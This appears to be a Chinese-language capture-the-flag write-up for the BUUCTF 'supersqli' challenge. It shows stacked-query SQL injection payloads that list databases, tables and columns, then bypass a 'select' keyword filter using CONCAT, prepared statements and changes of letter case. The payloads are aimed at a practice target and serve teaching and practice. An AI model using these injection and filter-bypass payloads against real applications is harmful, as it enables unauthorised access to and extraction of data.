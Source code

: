 # BUUCTF 随便注
- 关键词 sql注入 select绕过

## 题目描述
![183233cedc438e34fad8fd679592bead.png](../_resources/183233cedc438e34fad8fd679592bead.png)
## 解题思路
### 题目提示了是supersqli,所以尝试下sql注入
### 尝试下 1',发现报错，肯定存在sql注入点
![image](https://user-images.githubusercontent.com/24989246/175016538-d6a222a5-ec09-4266-8479-32cf1a747913.png)

### 列出数据库和表名
1';show databases;#    1';show tables#
![image](https://user-images.githubusercontent.com/24989246/175016921-a0229ba2-011d-4f7d-ae45-2100cc42a2eb.png)

### 发现数字的表名比较奇怪，列出字段试试
 1';show columns from `1919810931114514`;# 
 ![image](https://user-images.githubusercontent.com/24989246/175017051-f7033f4e-bbcd-4807-a91a-c553254da2d2.png)
 
### 发现flag字样，直接查询试试
![image](https://user-images.githubusercontent.com/24989246/175017186-4badfa4e-3485-43d5-9bde-48944ccc4fb8.png)

### 发现select被过滤了，尝试下预编译
```sql
1';
set @sql = CONCAT('sele','ct flag from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;#
```
![image](https://user-images.githubusercontent.com/24989246/175017366-0ea839ad-b036-4fdd-b3d3-83acc2750a54.png)

### 发现set函数和prepare函数被过滤了，但是，strstr函数不区分大小写，所以，修改大小写尝试下
```sql
1';
Set @sql = CONCAT('sele','ct flag from `1919810931114514`;');
Prepare stmt from @sql;
EXECUTE stmt;#
```
![image](https://user-images.githubusercontent.com/24989246/175017792-4762b108-ac39-4301-9c7d-44cd64518a1f.png)

### 成功拿到flag
